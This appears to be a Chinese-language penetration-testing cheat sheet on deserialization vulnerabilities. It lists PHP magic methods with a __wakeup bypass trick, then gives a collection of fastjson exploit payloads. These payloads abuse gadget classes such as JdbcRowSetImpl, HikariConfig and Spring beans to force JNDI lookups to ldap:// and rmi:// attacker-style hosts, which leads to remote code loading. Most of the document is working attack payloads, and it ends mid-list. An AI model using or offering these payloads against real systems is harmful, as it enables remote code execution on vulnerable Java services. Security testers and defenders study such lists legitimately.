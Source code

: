 ### 反序列化漏洞

#### php反序列化
> **php常见魔法函数**
```
__wakeup() 
//使用unserialize时触发,需要绕过时可增加属性的值如：由O:4:"Demo":1:{s:4:"file";s:8:"flag.php";}修改为O:4:"Demo":9999:{s:4:"file";s:8:"flag.php";}

__sleep() 
//使用serialize时触发，如$s = serialize($obj); obj对象被序列化时将优先调用__sleep()方法

__destruct() 
//脚本运行结束后_destruct函数被触发

__construct() 
//类一执行就开始调用，其作用是拿来初始化一些值。

__call() 
//在对象上下文中调用不可访问的函数时触发，如：类中的函数调用不存在的函数时而调用__call()

__callStatic() //在静态上下文中调用不可访问的方法时触发
__get() //用于从不可访问的属性读取数据
__set() //用于将数据写入不可访问的属性
__isset() //在不可访问的属性上调用isset()或empty()触发
__unset() //在不可访问的属性上使用unset()时触发

__toString() 
//把类当作字符串使用时触发，如用户可控：echo unserialize($_GET['usr_serialized']);首先会被反序列化，先调用了__wakeup()方法，之后被反序列化出来的对象又被当做字符串输出，又调用了__toString()方法，所以总共调用了两次魔法函数。

__invoke() 
//以调用函数的方式调用一个对象时__invoke()方法会被自动调用，如：$obj = new class(); 以$obj()这种函数形式调用时将调用__invoke()方法
```
#### fastjson反序列化
> **fastjson反序列化payload集合**
```
{"@type": "com.sun.rowset.JdbcRowSetImpl","dataSourceName": "ldap://fastjson_1.2.24.localhost/fastjson_1.2.24", "autoCommit": true}

{"name": {"@type":"java.lang.Class","val": "com.sun.rowset.JdbcRowSetImpl"},"x": {"@type": "com.sun.rowset.JdbcRowSetImpl","dataSourceName": rmi://fastjson_1.2.47.localhost/fastjson_1.2.47","autoCommit": true}}}

{"@type": "org.apache.xbean.propertyeditor.JndiConverter","AsText": "rmi://fastjson_1.2.62.localhost/fastjson_1.2.62"}

{"@type": "oracle.jdbc.connector.OracleManagedConnectionFactory ","dataSourceName": "rmi://fastjson_1.2.62_2.localhost/fastjson_1.2.62_2"}

{"@type": "com.caucho.config.types.ResourceRef", "lookupName": "ldap://jackson_fastjson_10673.localhost/jackson_fastjson_10673"}

{"@type":"com.zaxxer.hikari.HikariConfig","metricRegistry":"ldap://jackson_fastjson_14540.localhost/jackson_fastjson_14540"}

// 基于spring框架的field
{"@type": "org.springframework.beans.factory.config.PropertyPathFactoryBean","targetBeanName": "rmi://localhost/Exploit","propertyPath": "foo","beanFactory": {"@type": "org.springframework.jndi.support.SimpleJndiBeanFactory","shareableResources": ["rmi://spring_field.localhost/spring_field"]}}

// 基于JndiRefForwardingDataSource
```